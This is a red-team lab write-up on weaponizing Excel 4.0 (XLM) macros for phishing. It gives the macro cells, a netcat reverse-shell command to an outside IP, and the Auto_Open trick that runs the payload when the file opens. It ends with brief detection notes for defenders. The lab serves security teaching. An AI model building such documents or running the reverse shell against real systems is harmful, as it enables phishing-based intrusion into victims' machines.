 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:

![](../../../.gitbook/assets/phishing-xlm-hex.png)

![](../../../.gitbook/assets/phishing-xlm-strings.png)

## References

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}

